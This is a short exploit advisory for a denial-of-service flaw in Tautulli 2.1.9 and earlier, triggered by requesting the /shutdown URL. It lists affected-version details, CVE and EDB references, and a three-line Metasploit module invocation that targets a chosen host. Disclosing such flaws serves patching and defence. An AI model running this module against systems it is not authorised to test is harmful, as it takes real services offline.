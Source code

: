 # Tautulli 2.1.9 - Shutdown Denial of Service

## Overview
Tautulli versions 2.1.9 and prior are vulnerable to denial of service via the /shutdown URL.

## Affected System Information :

```
Date: 2018-12-17 
Exploit Author: Ismail Tasdelen
Vendor Homepage: https://tautulli.com/
Software : https://github.com/Tautulli/Tautulli
Product Version: v2.1.9
Platform: Windows 10 (10.0.18362)
Python Version: 2.7.11 (v2.7.11:6d1b6a68f775, Dec 5 2015, 20:40:30) [MSC v.1500 64 bit (AMD64)]
```

## Using

```
use auxiliary/dos/http/tautulli_shutdown_exec
set RHOSTS XXX.XXX.XXX.XXX
exploit
```

## References :

CVE:2019-19833
EDB:47785

